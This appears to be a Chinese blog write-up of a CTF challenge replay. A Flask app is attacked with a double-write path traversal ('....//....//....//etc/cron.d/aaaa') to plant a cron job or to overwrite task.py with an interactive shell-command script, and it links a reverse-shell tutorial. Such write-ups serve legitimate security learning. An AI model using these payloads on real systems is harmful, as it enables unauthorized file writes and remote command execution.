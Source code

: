 ps.本地测试的时候发现大概率一次命中就能打掉

~观察到有个app路径，很显然是个python语言写的flask框架，接下来我的想法是进行端口扫描，看看哪个端口开放了http服务，这样就好办了~

毕竟是复现，这里还是多弄几个方法吧，希望能学到更多，下次比赛就不要被控住了

首先这里采取了双写目录绕过，唉，要是我当时能多打几个就好了

给这里推荐几个文章

方法一：写个定时任务

给这里推荐几个文章，上面是关于Linux的定时任务的，下面是非常丰富的反弹shell教程，感谢C3师傅

[https://xz.aliyun.com/news/2083](https://xz.aliyun.com/news/2083)

[https://c3ngh.top/post/ReverseShell](https://c3ngh.top/post/ReverseShell)

先使用 `....//....//....//etc/cron.d/aaaa`生成文件名和路径

然后就是写bash反弹shell了

这里是用方法二写了个bash反弹shell，还没复现到定时任务，等会儿吃完饭了着

![](https://seandictionary.top/wp-content/uploads/2025/03/image-92.png)

我得研究下

方法二：覆盖task.py

还是覆盖简单一些

![](https://seandictionary.top/wp-content/uploads/2025/03/image-93-1024x290.png)

```
import subprocess

while True:
    command = input("请输入要执行的命令（输入 'exit' 退出）：")
    if command.lower() == 'exit':
        break
    try:
        result = subprocess.run(command, shell=True, capture_output=True, text=True)
        print(result.stdout if result.returncode == 0 else result.stderr)
    except Exception as e:
        print(f"执行命令出错：{e}")
```

直接env就行了

![](https://seandictionary.top/wp-content/uploads/2025/03/image-83-1024x477.png)

maybe还有其他方法，等我研究

### QRcode Reconstruction | FINISHED - Yolo

![](https://seandictionary.top/wp-content/uploads/2025/03/image-84.png)

![](https://seandictionary.top/wp-content/uploads/2025/03/image-85.png)

